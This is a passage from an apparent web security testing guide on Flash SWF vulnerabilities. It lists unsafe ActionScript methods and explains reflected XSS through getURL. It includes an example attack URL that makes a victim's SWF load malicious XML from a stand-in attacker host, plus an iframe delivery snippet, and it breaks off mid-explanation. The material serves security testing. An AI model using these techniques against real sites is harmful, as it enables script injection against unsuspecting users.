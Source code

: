 The above code could be attacked by requesting:

```
 http://victim/file.swf?language=http://evil.example.org/malicious.xml?
```

### Unsafe Methods

When an entry point is identified, the data it represents could be used
by unsafe methods. If the data is not filtered/validated using the right
regexp it could lead to some security issue.

Unsafe Methods since version r47 are:

    loadVariables()
    loadMovie()
    getURL()
    loadMovie()
    loadMovieNum()
    FScrollPane.loadScrollContent()
    LoadVars.load
    LoadVars.send
    XML.load ( 'url' )
    LoadVars.load ( 'url' )
    Sound.loadSound( 'url' , isStreaming );
    NetStream.play( 'url' );

    flash.external.ExternalInterface.call(_root.callback)

    htmlText

### The Test

In order to exploit a vulnerability, the swf file should be hosted on
the victim's host, and the techniques of reflected XSS must be used.
That is forcing the browser to load a pure swf file directly in the
location bar (by redirection or social engineering) or by loading it
through an iframe from an evil page:

<iframe src='http://victim/path/to/file.swf'></iframe>

This is because in this situation the browser will self-generate an HTML
page as if it were hosted by the victim host.

### XSS

**GetURL (AS2) / NavigateToURL (AS3):**

The GetURL function in ActionScript 2.0 and NavigateToURL in
ActionScript 3.0 lets the movie load a URI into the browser's window.

So if an undefined variable is used as the first argument for getURL:

`getURL(_root.URI,'_targetFrame');`

Or if a FlashVar is used as the parameter that is passed to a
navigateToURL function:

